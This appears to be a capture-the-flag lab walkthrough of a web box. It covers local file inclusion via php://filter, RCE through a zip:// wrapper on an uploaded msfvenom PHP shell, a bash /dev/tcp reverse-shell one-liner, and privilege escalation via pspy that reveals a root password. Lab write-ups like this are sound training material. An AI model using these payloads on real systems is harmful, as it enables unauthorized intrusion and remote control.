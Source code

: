#Pwned! 
```IP
192.168.213.229
```
# Enumeration

## HTTP
file upload

# Exploitation

```
ffuf -u 'http://192.168.213.229/index.php?file=php://filter/convert.base64-encode/resource=FUZZ' -w /usr/share/seclists/Discovery/Web-Con
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203160149.png?raw=true)
seems like it is adding .php to its resources, so we can access it just by typing 'upload' for example
```
http://192.168.213.229/index.php?file=php://filter/convert.base64-encode/resource=upload
```
we can review the code by decoding it
```
cat upload64| base64 -d
```
we create our shell as follows:
```
msfvenom -p php/reverse_php LHOST=192.168.45.176 LPORT=9001 -o shell.php
```
we upload it and intercept it to see the zip name

Executing the shell with a zip filter as shown in https://book.hacktricks.xyz/pentesting-web/file-inclusion#zip-and-rar

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203163728.png?raw=true)

```
/index.php?file=zip:///var/www/html/uploads/upload_1733238807.zip%23shell
```
```
/bin/bash -i >& /dev/tcp/ 192.168.45.176/4444 0>&1
```

since I was struggling to upgrade this php reverse shell, I just imported a new one created with msfvenom
```
sfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4444 -f elf > shell.elf
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203164727.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203164751.png?raw=true)


# PrivEsc

## Manual

we find something interesting in /opt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165123.png?raw=true)
seems like it is getting a password from /root
then removes all .tmp files from /var/www/html/uploads
then adds the files from backup.zip to some logs???
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165253.png?raw=true)

maybe running pspy we can get this command in real time
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203165948.png?raw=true)
```
WildCardsGoingWild
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241203170122.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

